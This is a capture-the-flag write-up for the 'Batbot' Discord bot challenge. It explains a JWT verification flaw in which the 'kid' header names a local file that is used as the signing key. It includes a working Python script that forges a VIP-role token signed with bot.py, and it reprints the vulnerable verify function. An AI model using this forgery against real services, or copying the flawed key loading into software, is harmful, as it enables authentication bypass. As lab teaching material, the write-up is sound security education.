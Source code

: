 ## title

Batbot

## Description

Author: xhalyl

## Solution

This challenge involves a discord bot that has generates and verifies JWT tokens giving a username.

Generate is straightforward, it takes a secret and username and creates a JWT token with the following payload, signing the token with the secret:

``` json
{
  "username": "test",
  "role": "user"
}
```

```py
@bot.command(name='generate')
async def generate_token(ctx, *, username=None):
    try:
        if isinstance(ctx.channel, discord.DMChannel) == False:
            await ctx.send("I can't see here 👀 , DM me")
        elif not username:
            await ctx.send("Please provide a username.")
        else:
            with open(SECRET_KEY_FILE_PATH, 'r') as file:
                secret_key = file.read().strip()
            headers = {
                'kid': SECRET_KEY_FILE_PATH
            }
            token = jwt.encode({'username': username,'role' : 'user'}, secret_key, algorithm='HS256',headers=headers)
            await ctx.send(f'The generated JWT token for {username} is: {token}')
    except:
        await ctx.send('Failed to generate token.')

```

The verify function verifies the jwt token and if its valid, verifies if the role is *VIP* and if it is then shown the flag. So our job is to overwrite the role to *VIP* in order to get the flag.

```py
@bot.command(name='verify')
async def authenticate(ctx, *, token=None):
    try:
        if isinstance(ctx.channel, discord.DMChannel) == False:
            await ctx.send("I can't see here 👀 , DM me")
        else:
            result = verify_jwt(token)
            print(ctx.author)
            print(result)
            if isinstance(result, dict):
                username = result.get('username')
                role = result.get('role')
                if username and role=='VIP':
                    await ctx.send(f'Welcome Sir! Here is our secret {flag}')
                elif username:
                    await ctx.send(f'Welcome {username}!')
                else:
                    await ctx.send('Authentication failed. Please try again.')
            else:
                await ctx.send('Authentication failed.')
    except:
        await ctx.send('Authentication failed.')
```

Our focus should be in the function verify_jwt:

```py
def verify_jwt(token):
    try:
        header = jwt.get_unverified_header(token)
        kid = header['kid']
        assert ("/" not in kid)
        with open(kid, 'r') as file:
            secret_key = file.read().strip()
        decoded_token = jwt.decode(token, secret_key, algorithms=['HS256'])
        return decoded_token
    except Exception as e:
        return str(e)
```
Since we can't path transverse because of the `assert ("/" not in kid)` we can just use bot.py as the common file to be used as the secret to sign the JWT token.

I have developed the following script to do it:

```py
import jwt
def create_jwt(username, file_path):
    with open(file_path, 'r') as file:
        secret_key = file.read().strip()
    headers = {
        'kid': file_path
    }
    token = jwt.encode({'username': username,'role' : 'VIP'}, secret_key, algorithm='HS256',headers=headers)
    return token

username = "test"
file_path = "bot.py"
token = create_jwt(username, file_path)
print(token)
```

We can use the following bash one line too: `cat bot.py | base64 -w0 | xsel -b`. Paste the base64 to the `https://jwt.io/` and change the role.

![Alt text](image.png)

![Alt text](image-1.png)